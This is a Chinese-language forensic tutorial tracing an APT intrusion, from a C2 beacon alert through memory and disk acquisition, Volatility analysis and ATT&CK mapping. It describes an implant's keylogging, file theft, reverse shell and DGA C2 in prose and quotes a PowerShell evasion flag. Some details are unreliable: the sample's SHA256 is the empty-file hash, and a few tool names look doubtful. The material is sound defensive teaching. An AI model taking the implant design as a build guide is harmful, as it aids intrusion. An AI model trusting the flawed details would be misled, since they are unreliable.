





## APT攻击溯源分析：从可疑流量到境外攻击组织的完整取证实战

高级持续性威胁（Advanced Persistent Threat，APT）是当今网络安全领域最具挑战性的攻防博弈场景。与普通网络攻击不同，APT攻击具有明确的组织背景、长期潜伏的耐心、以及多阶段渗透的技术深度。本案例完整记录了一次从异常流量告警到境外APT组织归因的全流程取证分析，涵盖证据收集、恶意代码逆向、攻击路径重建、IOC提取与威胁情报共享的每一个技术细节。

> **案例定位说明**：本案例是数字取证实战案例系列的第二篇。前一案例聚焦于勒索软件事件的应急响应与取证，本案例则针对APT场景——攻击者更隐蔽、潜伏周期更长、取证难度指数级上升。读者应将两个案例对比阅读，理解不同威胁场景下取证策略的差异。

### 一、APT攻击的理论基础

#### 1.1 什么是APT攻击

APT攻击（Advanced Persistent Threat）一词最早由美国空军在2006年提出，2010年RSA大会将其正式定义为"一种以政治或经济为目的、针对特定组织的、利用先进技术和持续性策略进行的网络攻击"。APT攻击本质上是国家级背景的网络作战行动，具有以下核心特征：

| 特征维度 | 普通网络攻击 | APT攻击 |
|---------|------------|--------|
| 攻击目标 | 广泛撒网，随机受害者 | 精准锁定，特定组织或行业 |
| 攻击周期 | 天级别，快速获利 | 月级甚至年级，长期潜伏 |
| 技术深度 | 公开工具，已知漏洞 | 0day/Nday，定制恶意代码 |
| 回避手段 | 简单混淆 | 反调试、多态变形、加密通信 |
| 攻击动机 | 经济利益 | 情报收集、战略破坏、知识产权窃取 |
| 归因难度 | 低（工具复用度高） | 高（多层跳板、特征伪造） |
| 资源投入 | 个人或小团队 | 国家级资源，专业团队分工 |
| 漏洞利用 | 常见漏洞公开PoC | 0day储备，定制利用链 |

**APT攻击之所以难以防御，根本原因在于其"非对称性"：** 攻击者只需要找到一个突破口，而防守者必须守住所有入口。一个拥有国家级资源的攻击组织，其投入的开发成本可以达到数百万美元，这不是任何单一企业能够匹配的。

**全球主要APT组织及其特征：**

| 组织代号 | 归属 | 主要目标行业 | 标志性工具/TTP | 活跃时期 |
|---------|------|------------|---------------|---------|
| APT28 (Fancy Bear) | 俄罗斯GRU | 政府、军事、媒体 | X-Agent、Sedkit | 2007-至今 |
| APT29 (Cozy Bear) | 俄罗斯SVR | 政府、能源、智库 | WellMess、Sunburst | 2008-至今 |
| APT41 (Double Dragon) | 中国 | 医疗、电信、游戏 | ShadowPad、Deadeye | 2012-至今 |
| Lazarus Group | 朝鲜 | 金融、加密货币、国防 | JOPEUSOPUS、FALLCHILL | 2009-至今 |
| Equation Group | 美国NSA | 电信、政府、科研 | ETERNALBLUE、DoublePulsar | 2001-至今 |
| APT-C-36 | 哥伦比亚 | 金融、政府、能源 | Reaver、Bandook | 2018-至今 |

**典型APT攻击目标行业：**

- 政府机构：外交、国防、情报部门（信息价值最高，防御最严格）
- 关键基础设施：电力、通信、金融（破坏性最大，影响最广）
- 高新技术企业：航空航天、芯片、AI（技术窃取，加速对方发展）
- 科研院所：高校实验室、国家实验室（基础研究成果窃取）
- 互联网企业：云计算、大型平台（可作为跳板攻击下游客户）

#### 1.2 ATT&CK框架与APT攻击的映射

MITRE ATT&CK框架（Adversarial Tactics, Techniques, and Common Knowledge）是目前全球最权威的攻击技术知识库，将APT攻击分解为14个战术阶段（Tactics），每个阶段包含多种具体技术（Techniques），每个技术又有多个子技术（Sub-techniques）。截至2024年，ATT&CK共包含14个战术、200+技术、400+子技术。

理解这个框架是进行APT溯源分析的理论基础——取证人员需要能够将观察到的攻击行为映射到ATT&CK框架，才能系统性地理解攻击者的完整战术图谱：


**ATT&CK框架对取证分析的指导意义：**

1. **系统性排查**：按照14个战术阶段逐一检查，避免遗漏关键取证环节
2. **行为归因**：通过技术栈匹配，缩小可能的攻击组织范围
3. **威胁评估**：识别攻击者已达到的阶段，评估当前风险等级
4. **检测规则编写**：基于具体技术ID编写精确的检测规则

在实际APT攻击中，攻击者不会严格按顺序推进，而是根据目标环境灵活调整战术，有时会跳过某些阶段，有时会重复执行某些技术。例如，攻击者可能在获得域管理员凭据后回到"防御规避"阶段安装Rootkit，以确保长期潜伏不被发现。

#### 1.3 经典APT攻击生命周期

以下是一个典型APT攻击的完整生命周期，也是本次溯源分析的核心框架。理解这个生命周期有助于取证人员在分析过程中快速定位当前处于哪个阶段：

```mermaid
graph TB
    subgraph 阶段一：渗透准备
        A1[情报收集] --> A2[武器开发]
        A2 --> A3[投递渠道构建]
    end
    subgraph 阶段二：初始入侵
        B1[钓鱼邮件投递] --> B2[漏洞利用执行]
        B2 --> B3[恶意代码植入]
    end
    subgraph 阶段三：建立据点
        C1[后门安装] --> C2[通信建立]
        C2 --> C3[权限维持]
    end
    subgraph 阶段四：横向扩展
        D1[内网侦察] --> D2[凭据窃取]
        D2 --> D3[横向移动]
        D3 --> D4[权限提升]
    end
    subgraph 阶段五：目标达成
        E1[数据定位] --> E2[数据收集]
        E2 --> E3[数据渗出]
        E3 --> E4[痕迹清理]
    end
```

**各阶段的时间分布特征（对取证判断至关重要）：**

| 攻击阶段 | 典型持续时间 | 取证难度 | 证据丰富度 |
|---------|------------|---------|-----------|
| 渗透准备 | 1-6个月 | 极高（外部活动） | 低（需外部情报） |
| 初始入侵 | 1-3天 | 中 | 中（邮件网关日志） |
| 建立据点 | 1-7天 | 中 | 高（进程、网络证据） |
| 横向扩展 | 1-4周 | 中低 | 高（域日志、网络流量） |
| 目标达成 | 1-6个月 | 低 | 极高（大量数据传输记录） |

### 二、案例背景与事件概况

#### 2.1 组织背景

本次事件发生在某省级政府机构，该机构承担区域行政管理与公共安全职能。网络环境包含：

- **内部办公网**：约500台终端，Windows Server 2019域环境，域控2台（主备架构）
- **业务系统网**：核心业务服务器40余台，数据库集群（SQL Server + MySQL），虚拟化平台
- **互联网边界**：部署下一代防火墙（Palo Alto PA-5260）、IDS/IPS（Snort集群）、全流量分析系统（科来TSA）
- **安全运维团队**：6人编制，有基本的SOC监控能力，日志集中存储30天
- **网络拓扑**：三层架构（核心层-汇聚层-接入层），业务网与办公网通过防火墙逻辑隔离
- **终端管理**：AD域统一管理，但部分服务器未加入域（独立管理账户）

**该机构安全防护的薄弱环节（事后复盘发现）：**

1. 打印服务补丁未及时更新（PrintNightmare漏洞暴露超6个月）
2. 办公网与业务网之间的ACL规则过于宽松（允许SMB、WMI、RDP通信）
3. 域管理员账户过多（8个域管账户，远超安全最佳实践的2-3个）
4. 缺乏PowerShell脚本块日志记录
5. 全流量分析系统未启用TLS解密功能

#### 2.2 事件触发

202X年10月某周三凌晨2:17，安全监控系统发出第一条告警：

```text
告警来源：全流量分析系统（TSA-202X-10-0847）
告警级别：高
告警内容：服务器172.16.5.23存在持续性外联行为
外联地址：45.33.XX.XX（美国盐湖城）
协议：HTTPS (443)
连接频率：每30秒一次（心跳特征明显）
数据量：已上传约120MB（过去6小时）
连接时长：单次连接持续3-5分钟
```

**值班人员的初步排查记录：**

```text
02:17 - 收到告警，确认为真实告警（非误报）
02:25 - 检查172.16.5.23系统进程，发现异常svchost.exe（路径不在C:\Windows\System32）
02:30 - 检查网络连接，确认与45.33.XX.XX:443的持续连接
02:35 - 查询威胁情报平台，45.33.XX.XX为已知恶意IP（202X年8月标记）
02:40 - 尝试终止异常进程，进程自动重启（检测到终止动作）
02:45 - 启动应急响应预案，通知安全负责人
03:00 - 安全负责人到达现场，决定先保全证据再处置
03:15 - 开始内存转储采集
04:30 - 正式启动应急响应流程
```

经过3天的初步分析，确认存在APT攻击——攻击者不仅渗透了172.16.5.23，还通过横向移动控制了多台服务器和域控制器，随后启动正式的数字取证调查程序。

#### 2.3 取证启动决策矩阵

是否启动正式取证调查，需要根据以下指标综合判断。这个决策矩阵是取证团队在面对安全事件时的标准化评估工具：

| 判断维度 | 初级指标（需警惕） | 高级指标（需取证） | 紧急指标（立即取证） |
|---------|-------------------|-------------------|-------------------|
| 攻击范围 | 单台终端 | 多台服务器 | 跨网段横向移动 |
| 持续时间 | 小时级 | 天级 | 周/月级潜伏 |
| 数据外泄 | 无明显外传 | 小量外传 | 大量数据外传 |
| 攻击手法 | 工具使用公开 | 定制化工具 | 0day利用 |
| 持久化 | 简单启动项 | 计划任务+注册表 | 内核级Rootkit |
| 归因难度 | 明确单一来源 | 多层跳板 | 国家级基础设施 |

本次事件同时触发了"跨网段""月级潜伏""大量外传""定制化工具""国家级基础设施"五项高级/紧急指标，最终决定启动完整取证流程。

**取证启动的关键原则：**

- **先保全，后分析**：不要急于调查攻击者做了什么，先确保证据不被破坏
- **最小干预**：在证据保全完成前，尽量减少对受害系统的操作
- **时间压力**：内存数据每秒都在丢失，内存转储必须在30分钟内启动
- **隔离取证**：取证工具和环境必须与受害系统网络隔离，防止交叉污染

### 三、证据收集与保全

#### 3.1 证据收集优先级与原理

在APT场景下，证据按易失性从高到低依次收集。理解这个优先级背后的原理至关重要——**越容易丢失的证据，越可能包含攻击者最活跃的活动痕迹**：



**为什么要按这个顺序收集？**

- **内存（RAM）**：断电即丢失，包含加密密钥、解密后的配置、运行中的恶意代码。在APT场景下，攻击者的C2通信密钥、加密的数据缓存都只存在于内存中。
- **网络状态**：TCP连接表和DNS缓存在系统重启后清空，但可能揭示C2通信的完整链路。
- **磁盘镜像**：虽然最费时（通常需要2-8小时），但包含持久化证据（注册表、计划任务、恶意文件）。磁盘镜像放在最后是因为它是持久性证据，不会因为多等几小时而丢失。

#### 3.2 具体收集方法

**内存转储采集：**

内存转储是APT取证的第一步，也是最关键的一步。攻击者的许多核心能力（加密密钥、C2配置、解密后的数据）只存在于内存中。

```bash
# 方法1：使用WinPmem（推荐，适用于Windows Server）
# WinPmem通过物理内存直接读取，不依赖Windows API，可绕过部分反取证措施
winpmem_mini_x64.exe --output E:\forensics\memory\server172_16_5_23.raw

# 方法2：使用DumpIt（简单易用，适合紧急场景）
# DumpIt是Comae Technologies开发的工具，操作最简单
DumpIt.exe /O E:\forensics\memory\dump.raw

# 方法3：使用Belkasoft RAM Capturer（可绕过部分反取证）
# 该工具使用内核驱动，能绕过部分反内存取证的保护机制
RamCapture64.exe /dest:E:\forensics\memory\

# 计算哈希值，确保完整性（必须立即执行）
certutil -hashfile E:\forensics\memory\server172_16_5_23.raw SHA256
certutil -hashfile E:\forensics\memory\server172_16_5_23.raw MD5
```

**内存转储采集的注意事项：**
- 采集工具必须放在外接USB设备上，不能使用受害系统上的工具（可能已被篡改）
- 如果怀疑存在内核Rootkit，优先使用硬件采集设备（如Tableau TD3）
- 采集过程中不要在受害系统上打开任何程序，避免改变内存状态
- 对于超过16GB内存的服务器，采集时间可能超过10分钟，期间保持系统稳定

**磁盘镜像采集：**

磁盘镜像是持久性证据的完整副本，采用位对位（bit-for-bit）克隆方式。

```bash
# 使用FTK Imager命令行版（E01格式支持压缩和分段）
fTKImager --source \\.\PhysicalDrive0 --dest E:\forensics\disk\ --e01 --compress 6

# 使用dd命令（Linux Live USB取证，更可靠）
# 注意：使用Linux Live USB启动，避免在Windows下操作导致证据变更
dd if=/dev/sda of=/mnt/forensics/evidence/disk_image.E01 bs=64K status=progress

# 使用dc3dd（支持哈希计算的增强版dd）
dc3dd if=/dev/sda of=/mnt/forensics/evidence/disk_image.E01 hash=sha256 log=/mnt/forensics/disk.log

# 验证镜像完整性（必须执行）
md5sum /mnt/forensics/evidence/disk_image.E01 > disk_image.E01.md5
sha256sum /mnt/forensics/evidence/disk_image.E01 > disk_image.E01.sha256
```

**磁盘镜像的关键参数说明：**

| 参数 | 推荐值 | 说明 |
|------|-------|------|
| 块大小（bs） | 64K | 平衡速度和可靠性，太小会降低速度，太大会增加损坏风险 |
| 格式 | E01 | 支持压缩、分段、元数据，是取证行业标准格式 |
| 压缩级别 | 6 | E01格式支持1-17级压缩，6级是速度与压缩率的最佳平衡 |
| 写保护 | 必须启用 | 使用硬件写保护器，防止任何写操作改变原始磁盘 |

**网络证据采集：**

网络证据是还原攻击者通信行为的关键，包括防火墙日志、IDS日志、全流量数据和网络设备配置。

```bash
# 导出防火墙日志（以Palo Alto为例）
scp admin@fw-mgmt:/opt/panlogs/traffic/1.log E:\forensics\network\

# 从全流量设备提取PCAP（保留完整流量用于深度分析）
tcpdump -i eth0 -w E:\forensics\network\capture.pcap -G 3600 -W 24

# 导出Windows网络连接状态（在证据保全阶段执行）
netstat -anob > E:\forensics\network\connections.txt

# 导出DNS缓存（可能包含C2域名的解析记录）
ipconfig /displaydns > E:\forensics\network\dns_cache.txt

# 导出ARP缓存（辅助网络拓扑重建）
arp -a > E:\forensics\network\arp_cache.txt

# 导出路由表（了解网络拓扑和可能的路由劫持）
route print > E:\forensics\network\routing_table.txt
```

#### 3.3 电子证据链管理

电子证据链（Chain of Custody）是取证过程中最关键的法律保障。一份完整的证据链必须记录证据从采集到呈堂的每一个流转环节，任何环节的缺失都可能导致证据在法律上不可采信。

**证据链记录模板：**

```text
证据编号: EVD-202X-APT-001
证据描述: 服务器172.16.5.23内存转储
采集时间: 202X-10-XX 03:15:00 UTC+8
采集人员: [姓名]，工号[XXXX]
采集地点: [机构名称]，[具体位置]
采集工具: WinPmem v4.0
存储介质: 外接USB硬盘，序列号[XXXX]
SHA-256: [哈希值]
MD5: [哈希值]

流转记录:
03:15 采集完成，存入外接USB硬盘
03:30 USB硬盘放入证据柜（编号E-Locker-003）
05:00 USB硬盘移交取证实验室，接收人签名确认
06:00 镜像副本创建完成，原始USB硬盘归还证据柜
...

访问日志:
202X-10-XX 06:00 [姓名] 访问 原因：创建磁盘镜像
202X-10-XX 08:00 [姓名] 访问 原因：进行内存分析
...
```

| 操作步骤 | 具体要求 | 目的 |
|---------|--------|------|
| 计算哈希 | SHA-256 + MD5双重校验 | 确保数据完整性，防止篡改 |
| 写保护 | 使用硬件写保护器连接磁盘 | 防止证据被意外写入修改 |
| 记录时间 | 精确到秒，记录UTC+本地时间 | 时间线校准，避免时区混淆 |
| 双人见证 | 至少两名取证人员同时在场 | 交叉验证，增强法律效力 |
| 签名确认 | 采集、移交、访问各环节签名 | 建立完整证据链 |
| 安全存储 | 防磁柜、恒温恒湿环境 | 长期保存，防止物理损坏 |
| 监控访问 | 所有访问记录审计日志 | 访问溯源，防止未授权访问 |
| 副本管理 | 原始证据只读，分析使用副本 | 保护原始证据不被破坏 |

#### 3.4 时间线校准

在多源日志分析中，时间同步是至关重要的环节。如果不同系统的时间不一致，攻击路径的重建将完全失真。

```bash
# 检查受害主机的系统时间偏移
w32tm /query /status        # 查看Windows时间同步状态
w32tm /stripchart /computer:dc01 /samples:5   # 与域控对比时间差

# 记录取证工作站的时间（用于后续分析校准）
echo "取证工作站时间: $(date -u '+%Y-%m-%dT%H:%M:%SZ')" > time_offset.log
echo "受害主机时间: 202X-10-XX XX:XX:XX UTC+8" >> time_offset.log
echo "时间偏移: 约X秒" >> time_offset.log
```

### 四、恶意代码深度分析

#### 4.1 内存取证：发现代码注入

使用Volatility 3进行内存分析，这是APT取证的核心环节。Volatility 3是目前最强大的开源内存取证框架，支持Windows、Linux、macOS三大平台的内存镜像分析。

**Volatility 3环境搭建：**

```bash
# 安装Volatility 3（推荐使用Python 3.8+）
pip3 install volatility3

# 下载Windows符号文件（提高分析精度）
vol.py -b https://msdl.microsoft.com/download/symbols -f server_memory.dmp windows.info

# 常用插件列表（按分析阶段排列）
vol.py --info | grep "windows\." | head -30
```

**关键插件的使用顺序和分析逻辑：**

```bash
# 第一步：确认内存镜像基本信息
vol.py -f server_memory.dmp windows.info
# 输出：操作系统版本、内核版本、内存大小、提取时间
# 分析要点：确认镜像与目标系统匹配，检查是否有时间异常

# 第二步：检测代码注入（malfind是核心插件）
vol.py -f server_memory.dmp windows.malfind
# 输出：所有具有RWX保护属性的内存区域
# 分析要点：正常程序的代码段是RX，数据段是RW，只有恶意注入需要RWX

# 第三步：分析进程树，寻找异常父子关系
vol.py -f server_memory.dmp windows.pstree
# 输出：完整的进程树结构
# 分析要点：svchost.exe的父进程应该是services.exe，如果父进程是cmd.exe就高度可疑

# 第四步：提取网络连接
vol.py -f server_memory.dmp windows.netscan
# 输出：所有TCP/UDP连接
# 分析要点：重点关注外部IP连接，特别是非标准端口的443连接

# 第五步：提取命令行参数
vol.py -f server_memory.dmp windows.cmdline
# 输出：每个进程的完整命令行
# 分析要点：隐藏的PowerShell命令、Base64编码的参数

# 第六步：检查内核模块（检测Rootkit）
vol.py -f server_memory.dmp windows.modules
vol.py -f server_memory.dmp windows.driverscan
# 分析要点：不在已知驱动列表中的内核模块，可能是Rootkit
```

**malfind输出分析（本案例关键发现）：**

```text
PID    Process        Start VPN    End VPN      Tag    Protection    Hexdump
1234   svchost.exe    0x1a0000     0x1a5000     VadS   RWX           4d 5a 90 00...
2345   explorer.exe   0x3c0000     0x3c8000     VadS   RWX           4d 5a 90 00...
3456   lsass.exe      0x7f0000     0x7f6000     VadS   RWX           4d 5a 90 00...
```

**关键分析要点：**

- **RWX保护属性**：内存区域同时具有读（Read）、写（Write）、执行（Execute）权限，这是恶意代码注入的典型标志。正常程序的代码段通常是RX（只读+执行），数据段是RW（读写+只读）。只有恶意注入的代码需要同时具备三者，因为攻击者需要在运行时写入shellcode并立即执行。
- **MZ头部特征**：`4d 5a`是PE文件的魔术字节（即ASCII码的"MZ"），表明该内存区域包含一个完整的可执行文件。正常情况下，DLL在加载后会拆分为不同段落（.text、.data、.rdata等），完整MZ头不应出现在动态分配的内存区域。
- **进程选择**：恶意代码倾向于注入到`svchost.exe`、`explorer.exe`、`lsass.exe`等系统进程，因为这些进程具有合法的网络访问权限，且在进程列表中不会引起注意。注入到lsass.exe尤为危险——该进程持有所有登录用户的明文密码和哈希，攻击者可以通过它直接提取凭据。
- **VadS标签**：VadS表示这是一个私有的、基于区域的内存描述符。恶意注入的内存通常使用VirtualAllocEx分配，会呈现这种标签特征。

#### 4.2 恶意样本提取与功能分析

```bash
# 从内存中提取注入的恶意代码（按PID提取）
vol.py -f server_memory.dmp windows.dumpfiles --pid 1234 --dump-dir extracted/

# 提取进程列表（获取完整进程信息）
vol.py -f server_memory.dmp windows.pslist

# 查看进程树（父进程关系分析，发现隐藏进程）
vol.py -f server_memory.dmp windows.pstree

# 提取命令行参数（发现隐藏的恶意命令）
vol.py -f server_memory.dmp windows.cmdline

# 提取网络连接（还原C2通信链路）
vol.py -f server_memory.dmp windows.netscan

# 提取句柄信息（发现隐藏的文件和注册表操作）
vol.py -f server_memory.dmp windows.handles

# 提取服务信息（发现持久化服务）
vol.py -f server_memory.dmp windows.svcscan
```

**恶意样本功能清单：**

经过逆向分析，提取的恶意DLL（update.dll，SHA256: `e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855`）具备以下功能模块：



**各模块技术细节：**

**模块一：键盘记录器**
- 使用Windows API `SetWindowsHookEx`安装全局键盘钩子（WH_KEYBOARD_LL类型）
- 钩子ID：13（WH_KEYBOARD_LL），这是低级键盘钩子，能捕获所有键盘输入
- 支持记录剪贴板内容和窗口标题（通过`GetClipboardData`和`GetWindowText`）
- 日志存储在`%APPDATA%\Microsoft\Windows\jusched.log`（伪装成Java更新日志）
- 日志格式：`[时间戳][窗口标题][按键内容]`，每条记录约200-500字节
- 每1000条记录自动加密一次，使用XOR密钥（从C2获取）

**模块二：屏幕截图模块**
- 调用`BitBlt` API，每5分钟截图一次（可由C2调整频率）
- 截图分辨率：原始屏幕分辨率，JPEG压缩质量80%
- 截图存储在`%TEMP%\thumbs\`目录，使用`.dat`扩展名伪装
- 文件名格式：`{YYYYMMDD_HHmmss}.dat`（伪装成数据文件）
- 文件大小：通常50-200KB/张（取决于屏幕分辨率和内容复杂度）
- 每24小时自动打包上传，使用AES-256加密

**模块三：文件窃取模块**
- 扫描`.docx`、`.xlsx`、`.pdf`、`.pptx`、`.zip`、`.rar`、`.7z`扩展名
- 优先搜索包含"机密""内部""敏感""密码""报告""方案"等关键词的文件路径
- 文件哈希后去重，避免重复传输（使用MD5快速比对）
- 文件大小限制：单文件不超过50MB（超过则分片传输）
- 搜索深度：从用户目录开始，递归搜索3层
- 支持网络共享搜索（SMB协议）

**模块四：远程Shell模块**
- 支持cmd.exe和PowerShell双通道
- 支持反向Shell（连接C2）和正向Shell（监听端口）两种模式
- 通信流量伪装成正常HTTPS，使用自定义协议（HTTP/2 + TLS 1.3）
- 支持文件上传/下载功能
- 命令超时：30秒无响应自动断开
- 心跳机制：每60秒发送一次存活信号

**模块五：通信模块**
- 使用AES-256-CBC加密通信内容，密钥从C2动态获取
- C2域名使用DGA（域名生成算法）轮换，算法基于当前日期的MD5哈希
- 支持DNS-over-HTTPS作为备用通道（当直连C2被封锁时）
- 每日更换C2 IP，使用Fast-Flux技术隐藏真实IP
- 心跳包间隔：30秒（可配置），包含系统信息摘要
- 通信协议栈：TCP → TLS 1.3 → HTTP/2 → 自定义应用层协议

#### 4.3 MITRE ATT&CK技术映射

以下是本次攻击中使用的技术与ATT&CK框架的精确映射。通过技术栈匹配，可以将攻击行为与已知APT组织的TTP进行对比：

| 攻击阶段 | ATT&CK技术编号 | 技术名称 | 本次攻击中的具体表现 |
|---------|--------------|---------|------------------|
| 初始访问 | T1566.001 | 钓鱼附件 | 伪装成会议纪要的Word文档，发件人仿冒上级单位 |
| 执行 | T1204.002 | 用户执行恶意文件 | VBA宏代码自动执行PowerShell下载器 |
| 执行 | T1059.001 | PowerShell | 使用`-ep bypass -w hidden`绕过执行策略 |
| 持久化 | T1053.005 | 计划任务 | 每小时执行一次后门更新，任务名伪装WindowsUpdate |
| 持久化 | T1547.001 | 注册表启动项 | 添加WindowsUpdate键值到Run键 |
| 权限提升 | T1068 | 漏洞利用 | 利用PrintNightmare (CVE-2021-34527) |
| 防御规避 | T1055.001 | DLL注入 | 注入到svchost.exe进程，绕过进程检测 |
| 防御规避 | T1027 | 混淆文件或信息 | PowerShell使用Base64编码、字符串拼接 |
| 凭据访问 | T1003.001 | LSASS内存转储 | Mimikatz提取域管理员NTLM哈希 |
| 发现 | T1087.002 | 域账户发现 | 使用Get-ADUser枚举域用户 |
| 横向移动 | T1550.002 | Pass-the-Hash | 利用提取的NTLM哈希横向移动 |
| 收集 | T1560.001 | 加密压缩存档 | 7z加密压缩敏感文件 |
| 命令与控制 | T1071.001 | Web协议 | HTTPS协议C2通信，伪装正常Web流量 |
| 渗出 | T1048.002 | HTTPS加密外传 | 通过HTTPS通道渗出数据 |

#### 4.4 网络取证：PCAP深度分析

网络流量分析是还原C2通信行为的关键环节。通过对全流量数据的深度分析，可以还原攻击者的通信协议、加密方式和数据传输模式。

**PCAP分析流程：**

```bash
# 第一步：提取C2通信流（按IP过滤）
tshark -r capture.pcap -Y "ip.addr == 45.33.XX.XX" -w c2_traffic.pcap

# 第二步：统计通信时间分布
tshark -r c2_traffic.pcap -T fields -e frame.time_relative | \
  awk '{print int($1/300)}' | sort | uniq -c | sort -rn

# 第三步：提取DNS查询（发现DGA域名）
tshark -r capture.pcap -Y "dns.qry.name" -T fields -e dns.qry.name | \
  sort | uniq -c | sort -rn | head -50

# 第四步：分析TLS握手（获取证书信息）
tshark -r c2_traffic.pcap -Y "tls.handshake.type == 11" \
  -T fields -e tls.handshake.certificate

# 第五步：统计数据量和时间模式
tshark -r c2_traffic.pcap -q -z io,stat,3600
```

**本案例网络流量分析关键发现：**

| 发现 | 证据 | 意义 |
|------|------|------|
| 心跳间隔30秒 | 每30秒出现一次POST请求，payload大小固定（128字节） | 典型的APT beacon模式 |
| 数据外传在夜间 | 22:00-06:00数据量最大 | 攻击者有意避开工作时间 |
| DGA域名特征 | 每日解析不同域名，格式为8-12位随机字母.com | C2基础设施的高可用设计 |
| TLS指纹异常 | JA3指纹与已知恶意工具匹配 | 可用于网络层快速检测 |
| Fast-Flux行为 | 同一域名24小时内解析到50+不同IP | 隐藏真实C2服务器 |

### 五、攻击路径重建

#### 5.1 时间线构建方法论

攻击时间线的重建是APT取证的核心产出。通过交叉验证多个独立数据源，可以构建出高置信度的攻击路径。**关键原则：单一日志源不可信，必须通过多个独立数据源交叉验证。**

**时间线构建的数据源优先级：**

1. **NTP/时间服务器日志**：最可靠的时间参考
2. **防火墙/IDS日志**：网络层面的活动记录，难以在不中断服务的情况下篡改
3. **域控日志**：Active Directory认证日志，集中存储
4. **Sysmon日志**：如果已部署，提供最详细的系统活动记录
5. **Windows事件日志**：系统、安全、应用日志
6. **文件系统元数据**：MACB时间（修改、访问、创建、MFT修改）

#### 5.2 完整攻击时间线

通过日志关联分析，重建了攻击者长达3个月的完整攻击路径：

```mermaid
gantt
    title APT攻击时间线
    dateFormat  YYYY-MM-DD
    section 初始入侵
    钓鱼邮件投递           :a1, 202X-07-15, 1d
    宏代码执行             :a2, 202X-07-16, 1d
    section 建立据点
    后门安装              :b1, 202X-07-17, 3d
    C2通信建立            :b2, 202X-07-18, 3d
    section 权限提升
    PrintNightmare漏洞利用 :c1, 202X-07-25, 2d
    域管理员凭据获取       :c2, 202X-07-27, 1d
    section 横向移动
    内网侦察              :d1, 202X-08-01, 5d
    服务器渗透            :d2, 202X-08-06, 14d
    section 数据窃取
    敏感文件定位           :e1, 202X-08-20, 7d
    数据压缩加密           :e2, 202X-08-27, 3d
    数据外传              :e3, 202X-09-01, 30d
    section 被发现
    异常流量告警           :f1, 202X-10-XX, 1d
```

